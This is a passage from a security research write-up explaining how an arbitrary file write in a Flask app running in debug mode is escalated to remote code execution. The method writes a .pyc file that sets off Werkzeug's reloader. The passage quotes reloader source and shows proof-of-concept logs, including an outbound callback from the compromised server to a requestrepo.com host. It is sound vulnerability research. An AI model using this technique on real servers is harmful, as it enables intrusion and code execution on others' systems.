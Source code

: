 - Flask with debug mode on or any frameworks that are using [Werkzeug's Reloader](https://werkzeug.palletsprojects.com/en/stable/serving/#reloader) 

Since Flask uses Werkzeug's Reloader in the debug mode to monitor any file changes, we can take a look at its implementation. In [`werkzeug/_reloader.py` line 348 - 360](https://github.com/pallets/werkzeug/blob/7868bef5d978093a8baa0784464ebe5d775ae92a/src/werkzeug/_reloader.py#L348-L360), we can see this:

```python
class WatchdogReloaderLoop(ReloaderLoop):
    def __init__(self, *args: t.Any, **kwargs: t.Any) -> None:
        [...]
        # Extra patterns can be non-Python files, match them in addition
        # to all Python files in default and extra directories. Ignore
        # __pycache__ since a change there will always have a change to
        # the source file (or initial pyc file) as well. Ignore Git and
        # Mercurial internal changes.
        extra_patterns = [p for p in self.extra_files if not os.path.isdir(p)]
        self.event_handler = EventHandler(
            patterns=["*.py", "*.pyc", "*.zip", *extra_patterns],
            ignore_patterns=[
                *[f"*/{d}/*" for d in _ignore_common_dirs],
                *self.exclude_patterns,
            ],
        )
```

As you can see, the `event_handler` will check file changes based on the `patterns`. In the above, `*.py`, `*.pyc`, and `*.zip` files will be monitored. And based on the comment, we can try to write a `.pyc` file in the application's source code directory except `__pycache__` to do the second import in a different process.

> Note: I also tried `.zip` file, but no idea why the reloader won't get triggered.

To demonstrate this, here's a Flask web application with debug mode on, and it has a dirty AFW vulnerability:

<details><summary markdown="span"><strong>app.py</strong></summary></details>

<details><summary markdown="span"><strong>Dockerfile</strong></summary></details>

<details><summary markdown="span"><strong>poc_shared_object_file_trigger_reload.py</strong></summary></details>

```shell
└> python3 poc_shared_object_file_trigger_reload.py
[*] Writing our shared object file...
[*] Triggering the reloader...
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Research/python-dirty-arbitrary-file-write-to-rce-via-writing-shared-object-files-or-overwriting-bytecode-files/images/Pasted%20image%2020250428173954.png)

Server:

```shell
[...]
172.18.0.1 - - [28/Apr/2025 09:38:53] "POST /upload HTTP/1.1" 200 -
172.18.0.1 - - [28/Apr/2025 09:38:53] "POST /upload HTTP/1.1" 200 -
172.18.0.1 - - [28/Apr/2025 09:38:54] "POST /upload HTTP/1.1" 200 -
 * Detected change in '/app/anything.pyc', reloading
 * Restarting with stat
Connecting to 48jcuj6n.requestrepo.com (130.61.138.67:80)
writing to stdout
written to stdout
 * Debugger is active!
 * Debugger PIN: 192-854-631
```
